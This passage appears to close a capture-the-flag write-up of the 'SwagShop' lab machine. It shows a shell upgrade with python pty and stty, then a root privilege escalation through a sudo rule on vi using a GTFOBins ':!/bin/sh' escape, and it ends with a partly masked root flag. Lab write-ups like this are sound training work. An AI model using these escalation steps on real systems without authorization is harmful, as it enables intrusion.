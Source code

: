 First, I upgrade my shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Press Ctrl + z and use this command, which will bring the shell to the foreground so that shortcuts will work.

```bash
stty raw -echo; fg
```

The shell is now upgraded and you can use Ctrl + c without closing it. I use sudo -l to list all commands that can be executed as the root user:

```
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

I find an exploit on GTFOBins:

[vi | GTFOBins](https://gtfobins.github.io/gtfobins/vi/)

I use the command from the `sudo -l` output and add the `-c` flag from GTFOBins:

```bash
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/a -c ':!/bin/sh'
```

A shell spawns, in which I have root permissions.

## Root Flag

---

I got root permissions so I can read the root flag:

```bash
root@swagshop:/home/haris# cat /root/root.txt
c2b0**************************21
```

# Conclusions

---

Initial access was a bit tricky but after I got the user shell on the system, I could easily privesc to root. The box was fun to solve and it was a confidence boost for the OSCP exam.

From the learning perspective, it did not teach me a lot.